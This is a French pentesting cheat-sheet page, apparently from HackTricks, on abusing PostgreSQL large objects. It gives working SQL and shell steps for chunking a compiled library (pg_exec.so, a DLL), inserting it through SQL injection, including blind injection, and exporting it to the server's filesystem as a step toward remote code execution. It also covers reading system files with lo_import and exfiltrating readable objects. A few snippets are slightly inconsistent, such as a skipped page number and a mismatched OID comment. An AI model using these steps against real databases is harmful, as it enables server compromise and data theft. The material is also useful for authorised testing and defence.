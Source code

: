 # PostgreSQL Objets larges

PostgreSQL expose une structure appelée **objet large** (**table pg_largeobject**), qui est utilisée pour stocker des données qui seraient difficiles à manipuler dans leur intégralité (comme une image ou un document PDF). Contrairement à la fonction **COPY TO**, l'avantage des **objets larges** réside dans le fait que les **données** qu'ils **contiennent** peuvent être **exportées** vers le **système de fichiers** sous la forme d'une **copie identique du fichier importé**.

Afin de **sauvegarder un fichier complet dans cette table**, vous devez d'abord **créer un objet** dans la table mentionnée (identifié par un **LOID**) et ensuite **insérer des morceaux de 2 Ko** dans cet objet. Il est très important que tous les **morceaux aient 2 Ko** (sauf éventuellement le dernier) **ou** la fonction d'**exportation** vers le système de fichiers **ne fonctionnera pas**.

Afin de **diviser** votre **binaire** en **morceaux** de **2 Ko**, vous pouvez faire :
```bash
split -b 2048 pg_exec.so #This will create files of size 2KB
```
Pour encoder chacun des fichiers créés en Base64 ou en Hex, vous pouvez utiliser :
```bash
base64 -w 0 <Chunk_file> #Encoded in 1 line
xxd -ps -c 99999999999 <Chunk_file> #Encoded in 1 line
```
{% hint style="info" %}
Lors de l'exploitation de cette faille, il faut envoyer des **paquets de 2KB d'octets en texte clair** (pas 2KB d'octets encodés en base64 ou en hexadécimal). Si vous essayez d'automatiser cela, la taille d'un fichier **encodé en hexadécimal** est **doublée** (il faut donc envoyer 4KB de données encodées pour chaque paquet) et la taille d'un fichier **encodé en base64** est `ceil(n / 3) * 4`.

De plus, pour déboguer le processus, vous pouvez voir le contenu des grands objets créés avec :
{% endhint %}
```sql
 select loid, pageno, encode(data, 'escape') from pg_largeobject;
```
# Utilisation de lo\_creat & Base64

Tout d'abord, nous devons créer un LOID où les données binaires vont être enregistrées :
```sql
SELECT lo_creat(-1);       -- returns OID of new, empty large object
SELECT lo_create(173454);   -- attempts to create large object with OID 43213
```
Si vous exploitez une **injection SQL aveugle**, vous serez plus intéressé à utiliser `lo_create` avec un **LOID fixe** afin de **savoir où** vous devez **téléverser** le **contenu**.\
Notez également qu'il n'y a pas d'erreur de syntaxe, les fonctions sont `lo_creat` et `lo_create`.

LOID est utilisé pour identifier l'objet dans la table `pg_largeobject`. L'insertion de morceaux de taille 2 Ko dans la table `pg_largeobject` peut être réalisée en utilisant :
```sql
INSERT INTO pg_largeobject (loid, pageno, data) values (173454, 0, decode('<B64 chunk1>', 'base64'));
INSERT INTO pg_largeobject (loid, pageno, data) values (173454, 1, decode('<B64 chunk2>', 'base64'));
INSERT INTO pg_largeobject (loid, pageno, data) values (173454, 3, decode('<B64 chunk2>', 'base64'));
```
Enfin, vous pouvez exporter le fichier vers le système de fichiers en faisant (pendant cet exemple, le LOID utilisé était `173454`):
```sql
SELECT lo_export(173454, '/tmp/pg_exec.so');
```
{% hint style="info" %}
Notez que dans les versions les plus récentes de postgres, vous devrez peut-être **télécharger les extensions sans indiquer aucun chemin**. [**Lisez ceci pour plus d'informations**.](rce-with-postgresql-extensions.md#rce-in-newest-prostgres-versions)
{% endhint %}

Vous pourriez être intéressé par la suppression de l'objet volumineux créé après l'avoir exporté :
```sql
SELECT lo_unlink(173454);  -- deletes large object with OID 173454
```
# Utilisation de lo\_import & Hex

Dans ce scénario, lo\_import va être utilisé pour créer un objet de grande taille. Heureusement, dans ce cas, vous pouvez (et ne pouvez pas) spécifier le LOID que vous souhaitez utiliser :
```sql
select lo_import('C:\\Windows\\System32\\drivers\\etc\\hosts');
select lo_import('C:\\Windows\\System32\\drivers\\etc\\hosts', 173454);
```
Après avoir créé l'objet, vous pouvez commencer à insérer les données sur chaque page (n'oubliez pas, vous devez insérer des morceaux de 2 Ko):
```sql
update pg_largeobject set data=decode('<HEX>', 'hex') where loid=173454 and pageno=0;
update pg_largeobject set data=decode('<HEX>', 'hex') where loid=173454 and pageno=1;
update pg_largeobject set data=decode('<HEX>', 'hex') where loid=173454 and pageno=2;
update pg_largeobject set data=decode('<HEX>', 'hex') where loid=173454 and pageno=3;
```
Le HEX doit être juste le hexadécimal (sans `0x` ou `\x`), exemple:
```sql
update pg_largeobject set data=decode('68656c6c6f', 'hex') where loid=173454 and pageno=0;
```
Enfin, exportez les données vers un fichier et supprimez l'objet volumineux :
```sql
 select lo_export(173454, 'C:\\path\to\pg_extension.dll');
 select lo_unlink(173454);  -- deletes large object with OID 173454
```
{% hint style="info" %}
Notez que dans les dernières versions de postgres, vous devrez peut-être **télécharger les extensions sans indiquer aucun chemin**. [**Lisez ceci pour plus d'informations**](rce-with-postgresql-extensions.md#rce-in-newest-prostgres-versions).
{% endhint %}

# Limitations

Après avoir lu la documentation sur les grands objets dans PostgreSQL, nous pouvons découvrir que **les grands objets peuvent avoir une ACL** (Liste de contrôle d'accès). Il est possible de configurer **de nouveaux grands objets** de sorte que votre utilisateur **n'ait pas suffisamment de privilèges** pour les lire même s'ils ont été créés par votre utilisateur.

Cependant, il peut y avoir **un ancien objet avec une ACL qui permet à l'utilisateur actuel de le lire**, alors nous pouvons exfiltrer le contenu de cet objet. 


<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

- Travaillez-vous dans une **entreprise de cybersécurité** ? Voulez-vous voir votre **entreprise annoncée dans HackTricks** ? ou voulez-vous avoir accès à la **dernière version de PEASS ou télécharger HackTricks en PDF** ? Consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !

- Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFTs**](https://opensea.io/collection/the-peass-family)

- Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)

- **Rejoignez le** [**💬**](https://emojipedia.org/speech-balloon/) [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**

- **Partagez vos astuces de piratage en soumettant des PR au [repo hacktricks](https://github.com/carlospolop/hacktricks) et au [repo hacktricks-cloud](https://github.com/carlospolop/hacktricks-cloud)**.

</details>
